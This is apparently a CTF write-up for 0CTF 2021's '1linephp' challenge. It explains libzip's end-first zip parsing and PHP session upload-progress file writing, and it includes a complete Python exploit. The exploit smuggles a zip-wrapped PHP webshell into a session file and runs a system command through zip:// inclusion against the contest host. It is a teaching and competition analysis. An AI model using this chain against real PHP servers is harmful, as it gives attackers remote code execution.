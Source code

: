 ## 1linephp

#### solution

##### zip

The zip extension of PHP uses the libzip library. By reading the source code of libzip, you can find that the way to parse the zip file is from the end to the beginning. First, search for the MAGIC of EOCD at the end of the file, and then read CDH according to the EOCD offset , and finally read the compressed file data according to the offset in CDH.

This way of parsing makes it possible to insert extra data at the beginning and the end of the zip. Just fix the two offsets accordingly to allow libzip to parse normally.

If the ZIP_CHECKCONS option flag is passed to zip_open, the check during parsing will be stricter.

###### Note

Fix offset using *zip* tool: https://github.com/perfectblue/ctf-writeups/tree/master/2021/0ctf-2021-quals/onelinephp

Some contestants found that they can get some useful information by search:

- https://gynvael.coldwind.pl/?id=523
- http://roverdoge.top

##### session

PHP_SESSION_UPLOAD_PROGRESS: https://www.php.net/manual/zh/session.upload-progress.php

session.save_path: https://www.php.net/manual/zh/session.configuration.php#ini.session.save-path

Using this feature, you can insert a piece of controllable data into a session file with a controllable file name. The specific details have been analyzed in many articles and will not be repeated here.

In addition to time race, a more stable method can also be used.

> When the [session.upload_progress.enabled](https://www.php.net/manual/en/session.configuration.php#ini.session.upload-progress.enabled) INI option is enabled, PHP will be able to track the upload progress of individual files being uploaded.

As long as the file upload is slower, you can keep the upload progress information in the session file longer, see exp for details.

##### CcL's exp

```python
import requests
import socket

port = 50081
php_session_id = "dd9c6236c439f75b78cf6ef8d1efca31"
payload = b"ccl_PK\x03\x04\x14\x00\x00\x00\x08\x00\xe5Q\xd9Rs\xaei\xe7\x1d\x00\x00\x00 \x00\x00\x00\x0b\x00\x1c\ x00include.phpUT\t\x00\x03-<\xd5`-<\xd5`ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00s\xb0\xb1 /\xc8(PHM\xce\xc8WP\x89ww\r\x896\x88\xd5\x800\x0cc5\xad\xb9\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\ xe5Q\xd9Rs\xaei\xe7\x1d\x00\x00\x00 \x00\x00\x00\x0b\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xa4\x81\ x14\x00\x00\x00include.phpUT\x05\x00\x03-<\xd5`ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\ x06\x00\x00\x00\x00\x01\x00\x01\x00Q\x00\x00\x00v\x00\x00\x00\x00\x00"


def exp():
    res = requests.get(
        f"http://111.186.59.2:{port}/",
        params={
            "yxxx": f"zip:///tmp/sess_{php_session_id}#include",
            "0": "system",
            "1": "cat /dd810fc36330c200a_flag/flag",
        },
    )
    print(res.text)


def build_http_request_packet(req: requests.PreparedRequest):
    packet = b""
    packet += f"{req.method} {req.path_url} HTTP/1.1\r\n".encode()
    for header, value in req.headers.items():
        packet += f"{header}: {value}\r\n".encode()
    packet += b"\r\n"
    if req.body is not None:
        if "Content-Length" in req.headers:
            if type(req.body) is str:
                packet += req.body.encode()
            else:
                packet += req.body
        else:
            for part in req.body:
                packet += f"{len(part):x}\r\n".encode()
                packet += f"{part}\r\n".encode()
            packet += b"0\r\n\r\n"
    return packet


def do_so():
    req = requests.Request(
        "POST",
        f"http://111.186.59.2:{port}/",
        headers={"Host": f"111.186.59.2:{port}"},
        cookies={"PHPSESSID": php_session_id},
        data={
            "PHP_SESSION_UPLOAD_PROGRESS": payload,
        },
        files={"file": ("simple.txt", b"ccl" * 4096)},
    )
    packet = build_http_request_packet(req.prepare())
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("111.186.59.2", port))
    s.sendall(packet[:-8])
    exp()
    s.sendall(packet[-8:])
    s.close()


if __name__ == "__main__":
    do_so()
```

#### unintended solution

Delete the first 16 bytes of the zip file and use it as the payload.

The content of the session file in the expected solution is a 16-byte prefix + zip with offset fixed + suffix.

The content of the session file in the unexpected solution is the 16-byte prefix + zip with the first 16 bytes removed + suffix .

##### why?

By reading the source code of libzip, it can be found that when reading the file in the zip, it first finds the position of the LFH according to the offset in the CDH, and then does not parse the entire content in the LFH block, but directly reads the file name length and extra field length according to the relative offset, use the sum of these two values and 30 as the offset of the compressed data, and read the compressed data directly.

Therefore, in this challenge, the first 16 bytes of the file are useless to libzip and can be replaced by any value.